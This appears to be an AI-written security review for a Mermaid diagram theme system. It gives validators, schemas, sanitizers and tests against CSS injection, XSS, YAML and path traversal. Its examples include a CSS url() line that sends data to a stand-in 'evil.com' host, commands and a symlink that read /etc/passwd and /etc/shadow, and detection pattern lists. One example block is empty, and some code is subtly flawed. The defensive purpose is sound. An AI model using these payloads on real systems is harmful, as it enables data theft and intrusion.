

# Security Review: Mermaid Theme System Implementation

> **Component**: Mermaid Theme System for AgentScope Diagrams
> **Review Date**: January 2026
> **Reviewer**: Security Architecture Agent
> **Risk Level**: Medium (with proper controls) / High (without controls)

---

## 1. Executive Summary

This security review analyzes the implementation of a Mermaid theme system for AgentScope's diagram generation. The theme system introduces several attack surfaces that require careful mitigation:

| Risk Category | Severity | Status |
|--------------|----------|--------|
| CSS Injection via Color Values | High | Requires mitigation |
| XSS via Theme Variables | High | Requires mitigation |
| Config File Parsing (JSON/YAML) | Medium | Requires safe parsing |
| Path Traversal in Config Loading | Medium | Requires validation |
| Mermaid Directive Injection | Medium | Requires sanitization |
| Template Injection in Labels | Medium | Requires escaping |

**Recommendation**: Implement all mitigations before enabling user-configurable themes.

---

## 2. Threat Model

### 2.1 STRIDE Analysis

| Threat | Category | Attack Vector | Impact |
|--------|----------|---------------|--------|
| Malicious theme file injection | Tampering | Attacker modifies theme config | XSS, CSS injection |
| Theme name spoofing | Spoofing | Attacker uses unexpected theme name | Load malicious config |
| Arbitrary file read via path | Information Disclosure | Path traversal in config path | Read sensitive files |
| Denial of service via regex | Denial of Service | Complex patterns in color values | CPU exhaustion |
| Privilege escalation via directives | Elevation of Privilege | Mermaid directive injection | Execute unsafe operations |

### 2.2 Attack Surface

```
┌─────────────────────────────────────────────────────────────────────┐
│                         Attack Surface                               │
├─────────────────────────────────────────────────────────────────────┤
│                                                                      │
│   User Input                          System Processing              │
│   ─────────────                       ──────────────────            │
│   ┌─────────────┐                     ┌─────────────────┐           │
│   │ Theme Name  │ ─────────────────▶  │ Theme Resolver  │           │
│   │ (CLI arg)   │                     │ (allowlist)     │           │
│   └─────────────┘                     └─────────────────┘           │
│                                               │                      │
│   ┌─────────────┐                             ▼                      │
│   │ Config Path │ ─────────────────▶  ┌─────────────────┐           │
│   │ (CLI arg)   │                     │ Path Validator  │           │
│   └─────────────┘                     │ (sandbox check) │           │
│                                       └─────────────────┘           │
│   ┌─────────────┐                             │                      │
│   │ Color Values│ ─────────────────▶  ┌──────▼──────────┐           │
│   │ (config)    │                     │ Color Validator │           │
│   └─────────────┘                     │ (hex regex)     │           │
│                                       └─────────────────┘           │
│   ┌─────────────┐                             │                      │
│   │ Labels/Text │ ─────────────────▶  ┌──────▼──────────┐           │
│   │ (config)    │                     │ Text Sanitizer  │           │
│   └─────────────┘                     │ (escape HTML)   │           │
│                                       └─────────────────┘           │
│                                               │                      │
│                                       ┌───────▼─────────┐           │
│                                       │ Mermaid Output  │           │
│                                       │ (sanitized)     │           │
│                                       └─────────────────┘           │
│                                                                      │
└─────────────────────────────────────────────────────────────────────┘
```

---

## 3. Input Validation Requirements

### 3.1 Theme Name Validation

**Requirement**: Only allow predefined theme names (allowlist approach).

**CRITICAL**: Never use blocklist for theme names - always use allowlist.

```typescript
// SECURE: Allowlist approach
const ALLOWED_THEMES = Object.freeze([
  'default',
  'dark',
  'forest',
  'neutral',
  'base',
] as const);

type ThemeName = typeof ALLOWED_THEMES[number];

function validateThemeName(input: unknown): ThemeName {
  if (typeof input !== 'string') {
    throw new SecurityError('Theme name must be a string');
  }

  const normalized = input.trim().toLowerCase();

  if (!ALLOWED_THEMES.includes(normalized as ThemeName)) {
    throw new SecurityError(
      `Invalid theme name: '${sanitizeForLog(input)}'. ` +
      `Allowed themes: ${ALLOWED_THEMES.join(', ')}`
    );
  }

  return normalized as ThemeName;
}

// INSECURE: Never do this (blocklist approach)
// const BLOCKED_THEMES = ['malicious', 'evil'];
// if (BLOCKED_THEMES.includes(theme)) throw new Error('Blocked');
```

**Rationale**: Blocklists are inherently incomplete. New attack vectors can bypass them. Allowlists ensure only known-safe values are accepted.

### 3.2 Custom Color Validation

**Requirement**: Validate hex color format strictly with no injection opportunities.

```typescript
// Strict hex color regex - no CSS injection possible
const HEX_COLOR_REGEX = /^#(?:[0-9a-fA-F]{3}){1,2}$/;
const RGBA_COLOR_REGEX = /^rgba?\(\s*\d{1,3}\s*,\s*\d{1,3}\s*,\s*\d{1,3}\s*(?:,\s*(?:0|1|0?\.\d+))?\s*\)$/;

interface ColorValidationResult {
  valid: boolean;
  sanitized?: string;
  error?: string;
}

function validateColor(input: unknown): ColorValidationResult {
  if (typeof input !== 'string') {
    return { valid: false, error: 'Color must be a string' };
  }

  const trimmed = input.trim();

  // Check for CSS injection attempts
  if (containsInjectionAttempt(trimmed)) {
    return {
      valid: false,
      error: 'Color contains potentially malicious content'
    };
  }

  // Length limit to prevent ReDoS
  if (trimmed.length > 50) {
    return { valid: false, error: 'Color value too long' };
  }

  // Validate hex format
  if (HEX_COLOR_REGEX.test(trimmed)) {
    return { valid: true, sanitized: trimmed.toLowerCase() };
  }

  // Validate rgba format
  if (RGBA_COLOR_REGEX.test(trimmed)) {
    return { valid: true, sanitized: normalizeRgba(trimmed) };
  }

  return { valid: false, error: 'Invalid color format' };
}

function containsInjectionAttempt(value: string): boolean {
  const dangerousPatterns = [
    /expression\s*\(/i,     // CSS expression()
    /url\s*\(/i,            // url() - can load external resources
    /import\s*\(/i,         // @import
    /javascript:/i,         // javascript: protocol
    /vbscript:/i,           // vbscript: protocol
    /data:/i,               // data: protocol
    /<[^>]*>/,              // HTML tags
    /[{}]/,                 // CSS block delimiters
    /[;]/,                  // CSS statement terminator
    /\/\*/,                 // CSS comment start
    /\\[0-9a-f]/i,          // CSS escape sequences
  ];

  return dangerousPatterns.some(pattern => pattern.test(value));
}
```

**Attack Examples Prevented**:

```css
/* These MUST be rejected */
#ff0000; background: url(https://evil.com/steal?c= /* CSS injection */
#ff0000; } body { display: none                    /* Layout destruction */
expression(alert('xss'))                            /* IE CSS expressions */
```

### 3.3 Config File Parsing Security

**Requirement**: Use safe parsing with schema validation.

```typescript
import { z } from 'zod';
import yaml from 'js-yaml';

// Define strict schema for theme config
const ThemeConfigSchema = z.object({
  name: z.enum(['default', 'dark', 'forest', 'neutral', 'base']),
  variables: z.object({
    primaryColor: z.string().regex(HEX_COLOR_REGEX).optional(),
    secondaryColor: z.string().regex(HEX_COLOR_REGEX).optional(),
    tertiaryColor: z.string().regex(HEX_COLOR_REGEX).optional(),
    primaryTextColor: z.string().regex(HEX_COLOR_REGEX).optional(),
    lineColor: z.string().regex(HEX_COLOR_REGEX).optional(),
    background: z.string().regex(HEX_COLOR_REGEX).optional(),
  }).optional(),
  // Additional validated fields only
}).strict(); // Reject unknown fields

type ThemeConfig = z.infer<typeof ThemeConfigSchema>;

function parseThemeConfig(content: string, format: 'json' | 'yaml'): ThemeConfig {
  let parsed: unknown;

  try {
    if (format === 'json') {
      parsed = JSON.parse(content);
    } else {
      // CRITICAL: Use JSON_SCHEMA to prevent code execution
      parsed = yaml.load(content, { schema: yaml.JSON_SCHEMA });
    }
  } catch (error) {
    throw new SecurityError('Invalid config format');
  }

  // Validate against schema
  const result = ThemeConfigSchema.safeParse(parsed);

  if (!result.success) {
    const errors = result.error.errors.map(e => e.message).join(', ');
    throw new SecurityError(`Invalid theme config: ${errors}`);
  }

  return result.data;
}
```

**YAML Security Note**: The `js-yaml` library has multiple schemas:
- `DEFAULT_SCHEMA` - UNSAFE: Can instantiate JavaScript objects
- `JSON_SCHEMA` - SAFE: JSON-compatible types only
- `FAILSAFE_SCHEMA` - SAFEST: Strings, arrays, objects only

**Always use `JSON_SCHEMA` or `FAILSAFE_SCHEMA` for untrusted input.**

---

## 4. Path Traversal Prevention

### 4.1 Config Loading Security

**Requirement**: Validate config file paths are within allowed directories.

```typescript
import { resolve, relative, normalize } from 'path';
import { realpathSync, existsSync } from 'fs';

const ALLOWED_CONFIG_DIRS = [
  '.claude',
  '.agentscope',
  'config',
] as const;

interface PathValidationResult {
  valid: boolean;
  resolvedPath?: string;
  error?: string;
}

function validateConfigPath(
  inputPath: string,
  projectRoot: string
): PathValidationResult {
  // Normalize and resolve the path
  const normalizedInput = normalize(inputPath);

  // Check for obvious traversal attempts
  if (normalizedInput.includes('..') || normalizedInput.startsWith('/')) {
    return {
      valid: false,
      error: 'Path traversal detected'
    };
  }

  // Resolve to absolute path within project
  const resolvedPath = resolve(projectRoot, normalizedInput);

  // Verify the path is within project root
  const relativePath = relative(projectRoot, resolvedPath);

  if (relativePath.startsWith('..') || resolve(relativePath) === relativePath) {
    return {
      valid: false,
      error: 'Path escapes project directory'
    };
  }

  // Check if path is in allowed directory
  const isAllowed = ALLOWED_CONFIG_DIRS.some(dir =>
    relativePath.startsWith(dir + '/') || relativePath.startsWith(dir + '\\')
  );

  if (!isAllowed) {
    return {
      valid: false,
      error: `Config must be in: ${ALLOWED_CONFIG_DIRS.join(', ')}`
    };
  }

  // Verify file exists and resolve symlinks
  if (existsSync(resolvedPath)) {
    try {
      const realPath = realpathSync(resolvedPath);
      const realRelative = relative(projectRoot, realPath);

      // Re-check after symlink resolution
      if (realRelative.startsWith('..')) {
        return {
          valid: false,
          error: 'Symlink escapes project directory'
        };
      }

      return { valid: true, resolvedPath: realPath };
    } catch {
      return { valid: false, error: 'Cannot resolve path' };
    }
  }

  return { valid: true, resolvedPath };
}
```

**Attack Examples Prevented**:

```bash
# Path traversal attempts
agentscope scan --theme-config "../../../etc/passwd"
agentscope scan --theme-config "config/../../secret.json"

# Symlink attacks
ln -s /etc/shadow .claude/themes/dark.json
agentscope scan --theme-config ".claude/themes/dark.json"
```

---

## 5. Mermaid-Specific Security

### 5.1 SecurityLevel Configuration

**Requirement**: Always use `securityLevel: 'strict'` for untrusted input.

```typescript
interface MermaidSecurityConfig {
  securityLevel: 'strict' | 'loose' | 'antiscript' | 'sandbox';
  maxTextSize: number;
  maxEdges: number;
}

// SECURE defaults
const SECURE_MERMAID_CONFIG: MermaidSecurityConfig = {
  securityLevel: 'strict',  // Disables click events and scripts
  maxTextSize: 50000,       // Limit to prevent DoS
  maxEdges: 5000,           // Limit diagram complexity
};

// Generate Mermaid init directive
function generateMermaidInit(theme: ThemeName): string {
  // CRITICAL: securityLevel must come from code, not config
  return `%%{init: {
    'securityLevel': 'strict',
    'theme': '${theme}'
  }}%%`;
}
```

**Security Levels Explained**:

| Level | Click Events | Scripts | XSS Protection | Use Case |
|-------|--------------|---------|----------------|----------|
| `strict` | Disabled | Disabled | Maximum | **Default for untrusted** |
| `antiscript` | Enabled | Disabled | High | Trusted internal use |
| `loose` | Enabled | Enabled | Low | Never use with user input |
| `sandbox` | Disabled | Disabled | Maximum | Iframe isolation |

### 5.2 XSS Risks in Theme Variables

**Requirement**: Sanitize all theme variables before embedding in Mermaid output.

```typescript
// Theme variable injection points in Mermaid
const MERMAID_THEME_VARS = [
  'primaryColor',
  'secondaryColor',
  'tertiaryColor',
  'primaryTextColor',
  'secondaryTextColor',
  'lineColor',
  'textColor',
  'mainBkg',
  'secondBkg',
  'border1',
  'border2',
  'arrowheadColor',
  'fontFamily',
  'fontSize',
  'nodeBorder',
  'clusterBkg',
  'clusterBorder',
  'edgeLabelBackground',
] as const;

type ThemeVariable = typeof MERMAID_THEME_VARS[number];

interface ThemeVariables {
  [key in ThemeVariable]?: string;
}

function sanitizeThemeVariables(variables: Record<string, unknown>): ThemeVariables {
  const sanitized: ThemeVariables = {};

  for (const key of MERMAID_THEME_VARS) {
    const value = variables[key];

    if (value === undefined) continue;

    if (typeof value !== 'string') {
      console.warn(`Theme variable ${key} must be string, got ${typeof value}`);
      continue;
    }

    // Validate based on variable type
    if (key === 'fontFamily') {
      sanitized[key] = sanitizeFontFamily(value);
    } else if (key === 'fontSize') {
      sanitized[key] = sanitizeFontSize(value);
    } else {
      // Color validation
      const colorResult = validateColor(value);
      if (colorResult.valid && colorResult.sanitized) {
        sanitized[key] = colorResult.sanitized;
      } else {
        console.warn(`Invalid color for ${key}: ${colorResult.error}`);
      }
    }
  }

  return sanitized;
}

function sanitizeFontFamily(value: string): string {
  // Only allow safe font names
  const SAFE_FONTS = [
    'sans-serif', 'serif', 'monospace', 'cursive', 'fantasy',
    'Arial', 'Helvetica', 'Times', 'Courier', 'Verdana',
    'Georgia', 'Trebuchet MS', 'Impact', 'Comic Sans MS',
  ];

  // Split font stack and validate each
  const fonts = value.split(',').map(f => f.trim().replace(/['"]/g, ''));

  const safeFonts = fonts.filter(font =>
    SAFE_FONTS.some(safe =>
      safe.toLowerCase() === font.toLowerCase()
    )
  );

  return safeFonts.length > 0 ? safeFonts.join(', ') : 'sans-serif';
}

function sanitizeFontSize(value: string): string {
  // Only allow numeric px values
  const match = value.match(/^(\d+(?:\.\d+)?)\s*(px|pt|em|rem)?$/);

  if (!match) {
    return '14px'; // Safe default
  }

  const size = parseFloat(match[1]);
  const unit = match[2] || 'px';

  // Clamp to reasonable range
  const clampedSize = Math.min(Math.max(size, 8), 32);

  return `${clampedSize}${unit}`;
}
```

### 5.3 Directive Injection Prevention

**Requirement**: Prevent injection of Mermaid directives via user input.

```typescript
// Mermaid directive syntax that MUST be blocked in user input
const DIRECTIVE_PATTERNS = [
  /%%\{/g,          // Directive start
  /\}%%/g,          // Directive end
  /%%[^\n]+/g,      // Comment/directive line
  /init\s*:/i,      // init directive
  /config\s*:/i,    // config directive
  /flowchart\s+/i,  // Diagram type override
  /graph\s+/i,      // Diagram type override
  /sequenceDiagram/i,
  /classDiagram/i,
  /stateDiagram/i,
  /erDiagram/i,
  /gantt/i,
  /pie/i,
  /journey/i,
];

function sanitizeForMermaid(input: string): string {
  let sanitized = input;

  // Remove directive patterns
  for (const pattern of DIRECTIVE_PATTERNS) {
    sanitized = sanitized.replace(pattern, '');
  }

  // Escape special Mermaid characters
  sanitized = sanitized
    .replace(/[[\]{}()#|;>]/g, char => `#${char.charCodeAt(0)};`)
    .replace(/"/g, "'") // Use single quotes for text
    .replace(/\n/g, '<br/>'); // Convert newlines

  return sanitized;
}

// For node labels specifically
function sanitizeNodeLabel(label: string): string {
  // Limit length
  if (label.length > 100) {
    label = label.slice(0, 97) + '...';
  }

  // Remove HTML (could be rendered in some viewers)
  label = label.replace(/<[^>]*>/g, '');

  // Apply Mermaid sanitization
  return sanitizeForMermaid(label);
}
```

**Attack Examples Prevented**:



---

## 6. Template Injection Prevention

### 6.1 Label Escaping in Existing Code

**Current Risk**: The existing diagram generators use template literals with user data.

**Location**: `/workspaces/agentscope/src/core/generators/diagrams/component-map.ts`

```typescript
// CURRENT (potentially vulnerable)
lines.push(`        ${agentId}["${label}"]`);
lines.push(`    ${id}["${cat.icon} ${cat.label}<br/><b>${cat.agents.length} agents</b>"]`);

// SECURE (with sanitization)
lines.push(`        ${sanitizeId(agentId)}["${sanitizeNodeLabel(label)}"]`);
lines.push(`    ${sanitizeId(id)}["${sanitizeNodeLabel(`${cat.icon} ${cat.label}`)}<br/><b>${cat.agents.length} agents</b>"]`);
```

### 6.2 ID Sanitization Enhancement

**Current Implementation** (good but can be improved):

```typescript
// Current
function sanitizeId(str: string): string {
  return str.replace(/[^a-zA-Z0-9_]/g, '_');
}

// Enhanced with length limit and reserved word check
const MERMAID_RESERVED = ['end', 'graph', 'subgraph', 'direction', 'class', 'style'];

function sanitizeId(str: string): string {
  // Replace non-alphanumeric
  let sanitized = str.replace(/[^a-zA-Z0-9_]/g, '_');

  // Ensure starts with letter
  if (/^[0-9]/.test(sanitized)) {
    sanitized = 'n_' + sanitized;
  }

  // Avoid reserved words
  if (MERMAID_RESERVED.includes(sanitized.toLowerCase())) {
    sanitized = sanitized + '_node';
  }

  // Limit length
  if (sanitized.length > 50) {
    sanitized = sanitized.slice(0, 50);
  }

  return sanitized;
}
```

---

## 7. Environment Variable Handling

### 7.1 Environment Variable Security

**Requirement**: Never use environment variables directly in theme configuration without validation.

```typescript
// INSECURE: Direct environment variable use
const theme = process.env.AGENTSCOPE_THEME; // Could be anything
const configPath = process.env.AGENTSCOPE_THEME_CONFIG; // Path traversal risk

// SECURE: Validated environment variable use
function getThemeFromEnv(): ThemeName {
  const envTheme = process.env.AGENTSCOPE_THEME;

  if (!envTheme) {
    return 'default';
  }

  // Reuse the same validation
  return validateThemeName(envTheme);
}

function getConfigPathFromEnv(projectRoot: string): string | undefined {
  const envPath = process.env.AGENTSCOPE_THEME_CONFIG;

  if (!envPath) {
    return undefined;
  }

  const result = validateConfigPath(envPath, projectRoot);

  if (!result.valid) {
    console.warn(`Invalid config path in environment: ${result.error}`);
    return undefined;
  }

  return result.resolvedPath;
}
```

### 7.2 Sensitive Environment Variable Protection

**Requirement**: Never log or expose environment variable values.

```typescript
// INSECURE: Logs sensitive values
console.log(`Using theme config: ${process.env.AGENTSCOPE_THEME_CONFIG}`);
console.log(`Config content: ${JSON.stringify(process.env)}`);

// SECURE: Redact sensitive information
function sanitizeForLog(value: unknown): string {
  if (typeof value !== 'string') {
    return '[non-string]';
  }

  // Truncate long values
  if (value.length > 50) {
    return value.slice(0, 20) + '...[truncated]';
  }

  // Redact potential secrets
  if (/api[_-]?key|secret|password|token/i.test(value)) {
    return '[REDACTED]';
  }

  return value;
}
```

---

## 8. Recommended Security Tests

### 8.1 Unit Tests for Validators

```typescript
// tests/unit/security/theme-validation.test.ts
import { describe, it, expect } from 'vitest';
import {
  validateThemeName,
  validateColor,
  validateConfigPath,
  sanitizeNodeLabel,
  sanitizeId
} from '../../../src/security/validators';

describe('Theme Name Validation', () => {
  it('should accept valid theme names', () => {
    expect(validateThemeName('default')).toBe('default');
    expect(validateThemeName('dark')).toBe('dark');
    expect(validateThemeName('FOREST')).toBe('forest'); // Case normalization
  });

  it('should reject invalid theme names', () => {
    expect(() => validateThemeName('evil')).toThrow('Invalid theme');
    expect(() => validateThemeName('')).toThrow();
    expect(() => validateThemeName(null)).toThrow();
    expect(() => validateThemeName(123)).toThrow();
  });

  it('should reject injection attempts in theme names', () => {
    expect(() => validateThemeName('default; evil')).toThrow();
    expect(() => validateThemeName('default\nmalicious')).toThrow();
    expect(() => validateThemeName('../../../etc/passwd')).toThrow();
  });
});

describe('Color Validation', () => {
  it('should accept valid hex colors', () => {
    expect(validateColor('#fff').valid).toBe(true);
    expect(validateColor('#ffffff').valid).toBe(true);
    expect(validateColor('#ABC123').valid).toBe(true);
  });

  it('should reject CSS injection attempts', () => {
    expect(validateColor('#fff; background: red').valid).toBe(false);
    expect(validateColor('url(https://evil.com)').valid).toBe(false);
    expect(validateColor('expression(alert(1))').valid).toBe(false);
    expect(validateColor('javascript:alert(1)').valid).toBe(false);
  });

  it('should reject overly long values', () => {
    const longValue = '#' + 'f'.repeat(1000);
    expect(validateColor(longValue).valid).toBe(false);
  });
});

describe('Config Path Validation', () => {
  const projectRoot = '/project';

  it('should accept valid config paths', () => {
    expect(validateConfigPath('.claude/theme.json', projectRoot).valid).toBe(true);
    expect(validateConfigPath('config/theme.yaml', projectRoot).valid).toBe(true);
  });

  it('should reject path traversal attempts', () => {
    expect(validateConfigPath('../secret.json', projectRoot).valid).toBe(false);
    expect(validateConfigPath('.claude/../../etc/passwd', projectRoot).valid).toBe(false);
    expect(validateConfigPath('/etc/passwd', projectRoot).valid).toBe(false);
  });

  it('should reject paths outside allowed directories', () => {
    expect(validateConfigPath('src/theme.json', projectRoot).valid).toBe(false);
    expect(validateConfigPath('node_modules/evil.json', projectRoot).valid).toBe(false);
  });
});

describe('Mermaid Sanitization', () => {
  it('should escape Mermaid special characters', () => {
    expect(sanitizeNodeLabel('Test [label]')).not.toContain('[');
    expect(sanitizeNodeLabel('Test {label}')).not.toContain('{');
  });

  it('should remove directive injection attempts', () => {
    const malicious = '%%{init: {"securityLevel": "loose"}}%%';
    expect(sanitizeNodeLabel(malicious)).not.toContain('%%{');
    expect(sanitizeNodeLabel(malicious)).not.toContain('init');
  });

  it('should remove HTML tags', () => {
    expect(sanitizeNodeLabel('<script>alert(1)</script>')).not.toContain('<');
    expect(sanitizeNodeLabel('')).not.toContain('<');
  });

  it('should handle reserved words in IDs', () => {
    expect(sanitizeId('end')).toBe('end_node');
    expect(sanitizeId('subgraph')).toBe('subgraph_node');
    expect(sanitizeId('class')).toBe('class_node');
  });
});
```

### 8.2 Integration Tests for Theme System

```typescript
// tests/integration/security/theme-security.test.ts
import { describe, it, expect } from 'vitest';
import { generateComponentMap } from '../../../src/core/generators/diagrams/component-map';
import { loadThemeConfig } from '../../../src/theme/loader';

describe('Theme System Security Integration', () => {
  it('should always output strict security level', () => {
    const output = generateComponentMap(mockConfig, { theme: 'dark' });

    expect(output).toContain("'securityLevel': 'strict'");
    expect(output).not.toContain("'securityLevel': 'loose'");
  });

  it('should sanitize user-provided labels in output', () => {
    const configWithMaliciousLabels = {
      ...mockConfig,
      agents: [
        {
          ...mockConfig.agents[0],
          name: 'test<script>alert(1)</script>',
          description: '%%{init: {}}%%'
        }
      ]
    };

    const output = generateComponentMap(configWithMaliciousLabels);

    expect(output).not.toContain('<script>');
    expect(output).not.toContain('%%{');
  });

  it('should reject malicious theme config files', async () => {
    await expect(
      loadThemeConfig('.claude/themes/../../etc/passwd')
    ).rejects.toThrow('Path escapes');
  });
});
```

### 8.3 Fuzz Testing Recommendations

```typescript
// tests/fuzz/theme-fuzz.test.ts
import { describe, it, expect } from 'vitest';
import { validateColor, sanitizeNodeLabel } from '../../../src/security/validators';

describe('Fuzz Testing', () => {
  const FUZZ_ITERATIONS = 1000;

  it('should handle random color inputs without crashing', () => {
    for (let i = 0; i < FUZZ_ITERATIONS; i++) {
      const randomInput = generateRandomString(Math.random() * 100);

      // Should not throw, just return valid: false
      expect(() => validateColor(randomInput)).not.toThrow();
    }
  });

  it('should handle random label inputs without crashing', () => {
    for (let i = 0; i < FUZZ_ITERATIONS; i++) {
      const randomInput = generateRandomString(Math.random() * 500);

      // Should not throw
      expect(() => sanitizeNodeLabel(randomInput)).not.toThrow();

      // Output should not contain dangerous patterns
      const output = sanitizeNodeLabel(randomInput);
      expect(output).not.toMatch(/%%\{/);
      expect(output).not.toMatch(/<script/i);
    }
  });

  function generateRandomString(length: number): string {
    const chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789' +
      '!@#$%^&*(){}[]|\\:";\'<>,.?/~`\n\r\t' +
      '%%{init}%%<script>javascript:';

    let result = '';
    for (let i = 0; i < length; i++) {
      result += chars.charAt(Math.floor(Math.random() * chars.length));
    }
    return result;
  }
});
```

---

## 9. Implementation Checklist

### 9.1 Pre-Implementation Security Checklist

- [ ] Define allowlist for theme names (no blocklist)
- [ ] Create Zod schema for theme config validation
- [ ] Implement hex color regex with injection detection
- [ ] Implement path traversal prevention for config loading
- [ ] Set `securityLevel: 'strict'` as non-overridable default
- [ ] Create `sanitizeNodeLabel()` function for all user text
- [ ] Enhance `sanitizeId()` with reserved word handling
- [ ] Add length limits to all string inputs

### 9.2 Code Review Checklist

For any PR implementing the theme system, verify:

- [ ] No user input is concatenated directly into Mermaid output
- [ ] All color values pass through `validateColor()`
- [ ] All theme names pass through `validateThemeName()`
- [ ] All config paths pass through `validateConfigPath()`
- [ ] All node labels pass through `sanitizeNodeLabel()`
- [ ] `securityLevel` is hardcoded, not configurable
- [ ] YAML parsing uses `JSON_SCHEMA` or `FAILSAFE_SCHEMA`
- [ ] Environment variables are validated before use
- [ ] No sensitive values are logged
- [ ] Unit tests cover all injection vectors

### 9.3 Security Tests to Add

- [ ] `tests/unit/security/theme-validation.test.ts`
- [ ] `tests/unit/security/color-validation.test.ts`
- [ ] `tests/unit/security/path-validation.test.ts`
- [ ] `tests/unit/security/mermaid-sanitization.test.ts`
- [ ] `tests/integration/security/theme-security.test.ts`
- [ ] `tests/fuzz/theme-fuzz.test.ts`

---

## 10. Summary of Recommendations

| Priority | Recommendation | Rationale |
|----------|---------------|-----------|
| **Critical** | Use allowlist for theme names | Blocklists can be bypassed |
| **Critical** | Always use `securityLevel: 'strict'` | Prevents XSS via click handlers |
| **Critical** | Validate all color values | Prevents CSS injection |
| **High** | Use safe YAML schema | Prevents arbitrary code execution |
| **High** | Implement path traversal prevention | Prevents file read attacks |
| **High** | Sanitize all Mermaid labels | Prevents directive/HTML injection |
| **Medium** | Add length limits to all inputs | Prevents DoS via ReDoS |
| **Medium** | Validate environment variables | Prevents injection via env |
| **Low** | Add fuzz testing | Finds edge case vulnerabilities |

---

## 11. References

- [Mermaid Security Documentation](https://mermaid.js.org/config/security.html)
- [OWASP Input Validation Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)
- [CWE-79: Cross-site Scripting (XSS)](https://cwe.mitre.org/data/definitions/79.html)
- [CWE-22: Path Traversal](https://cwe.mitre.org/data/definitions/22.html)
- [CWE-94: Code Injection](https://cwe.mitre.org/data/definitions/94.html)
- [js-yaml Security Considerations](https://github.com/nodeca/js-yaml#security)

---

*This security review should be updated whenever the theme system implementation changes.*
